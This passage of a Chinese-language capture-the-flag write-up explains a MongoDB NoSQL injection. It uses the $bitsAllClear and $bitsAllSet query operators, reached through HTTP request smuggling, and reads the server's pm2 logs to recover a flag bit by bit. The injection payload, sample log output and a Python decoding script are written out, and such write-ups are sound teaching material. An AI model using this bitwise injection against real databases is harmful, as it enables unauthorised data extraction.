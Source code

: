   基于此我们可使用位查询操作，具体参阅 MongoDB 的[文档](https://www.mongodb.com/docs/v4.2/reference/operator/query/bitsAllClear/)，于是有 payload

  ```
  username=admin&role=admin&keyword[$bitsAllClear]=0
  ```

  但由于我们的请求走私拆分了报文，这个 payload 是不一定拿到回显的

  于是就用到了上面信息搜集发现的 pm2，注意到源码中开发者将查询用 `console.log` 记录，我们找到 pm2 [日志](https://pm2.io/docs/runtime/guide/log-management/)的路径就能拿到查询的记录，直接逐位爆破，部分 log 如下

  ```
  {"status":"failed","keyword":{"$bitsAllClear":["1"]},"search_time":"1664255805"}
  {"status":"success","keyword":{"$bitsAllClear":["8"]}}
  {"status":"success","keyword":{"$bitsAllClear":["7"]}}
  {"status":"failed","keyword":{"$bitsAllClear":["6"]},"search_time":"1664255805"}
  {"status":"failed","keyword":{"$bitsAllClear":["5"]},"search_time":"1664255805"}
  {"status":"success","keyword":{"$bitsAllClear":["4"]}}
  {"status":"success","keyword":{"$bitsAllClear":["3"]}}
  {"status":"success","keyword":{"$bitsAllClear":["2"]}}
  {"status":"failed","keyword":{"$bitsAllClear":["1"]},"search_time":"1664255806"}
  {"status":"failed","keyword":{"$bitsAllClear":["9"]},"search_time":"1664255806"}
  {"status":"failed","keyword":{"$bitsAllClear":["1P"]},"search_time":"1664255826"}
  {"status":"failed","keyword":{"$bitsAllClear":["14"]},"search_time":"1664255826"}
  ```

  因为网络等问题不一定能稳出，所以建议用 Set 查询这样能保证 success 的信息准确，且爆破超出范围后也不会影响 flag 判断

  贴出一段处理 log 的脚本也基于此种查询

  ```python
  # exploits/resolve.py
  import json
  
  bits = ['0' for _ in range(196)]
  
  with open('./res.txt', 'r') as f:
      lines = f.readlines()
  
  for line in lines:
      try:
          l = json.loads(line)
          if l['status'] == 'success':
              bits[int(l['keyword']['$bitsAllSet'][0])] = '1'
      except Exception as e:
          pass
  
  def div(flag: list, step: int):
      length = len(flag)
      for i in range(0, length, step):
          yield flag[i:i+step]
  
  for byte in div(bits, 8):
      byte = '0b'+''.join(byte)[::-1]  # endian reverse
      i = int(byte, base=2)
      print(chr(i), end='')
  
  ```
